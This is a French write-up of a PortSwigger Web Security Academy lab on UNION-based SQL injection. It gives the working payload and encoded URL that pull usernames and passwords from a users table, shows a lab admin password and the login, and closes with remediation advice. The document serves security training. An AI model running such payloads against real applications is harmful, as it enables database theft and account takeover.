




# Lab 5 — UNION Attack : récupération de données depuis d'autres tables

**Source** : PortSwigger Web Security Academy
**Titre du lab** : Attaque par injection SQL UNION, récupération de données à partir d'autres tables
**Statut** : ✅ Résolu

## Objectif

Utiliser une attaque UNION pour extraire les noms d'utilisateurs et mots de passe depuis la table `users`, puis se connecter en tant qu'administrateur.

## Contexte

L'application filtre les produits par catégorie. La requête SQL backend est vulnérable à une injection UNION. La base de données contient une table `users` avec les colonnes `username` et `password`.

URL cible :https://0a6e002204d4a50086e326ff003c009d.web-security-academy.net
## Vulnérabilité

Injection SQL dans le paramètre `category`, permettant d'extraire des données depuis n'importe quelle table de la base de données via une attaque UNION.

## Exploitation

**Étape 1** : Déterminer le nombre de colonnes.

La requête retourne **2 colonnes** (déterminé avec `NULL,NULL`).

**Étape 2** : Vérifier que les deux colonnes acceptent du texte.

Les deux colonnes acceptent du texte.

**Étape 3** : Extraire les données de la table `users`.

**Payload utilisé** :Gifts' UNION SELECT username, password FROM users--
**URL finale** :https://0a6e002204d4a50086e326ff003c009d.web-security-academy.net/filter?category=Gifts'%20UNION%20SELECT%20username,%20password%20FROM%20users--
**Résultat de l'extraction** : Les identifiants de tous les utilisateurs apparaissent dans la page, notamment :
- `administrateur` : `xky36xmkhsixyqitndpc`

**Étape 4** : Se connecter avec les credentials récupérés.

- **Nom d'utilisateur** : `administrator`
- **Mot de passe** : `xky36xmkhsixyqitndpc`

## Résultat

Connexion réussie en tant qu'**administrateur**. Le lab a été marqué comme **Résolu**.

## Impact

Un attaquant peut extraire **toute la base de données** — noms d'utilisateurs, mots de passe, emails, données personnelles — et les utiliser pour compromettre des comptes ou d'autres systèmes si les mots de passe sont réutilisés.

## Remédiation

- Utiliser des **requêtes préparées (prepared statements)**
- **Hacher les mots de passe** avec un algorithme fort (bcrypt, argon2) — même en cas d'extraction, les mots de passe en clair ne seraient pas exposés
- Appliquer le **principe du moindre privilège** sur le compte base de données
- Mettre en place un **WAF** pour détecter les tentatives d'injection

## Captures d'écran

**1. Payload injecté dans l'URL (tentative initiale)**

**2. Payload encodé dans l'URL**

**3. Données extraites — credentials visibles dans la page**

**4. Connexion avec les credentials extraits**

**5. Lab résolu — connecté en tant qu'administrateur**

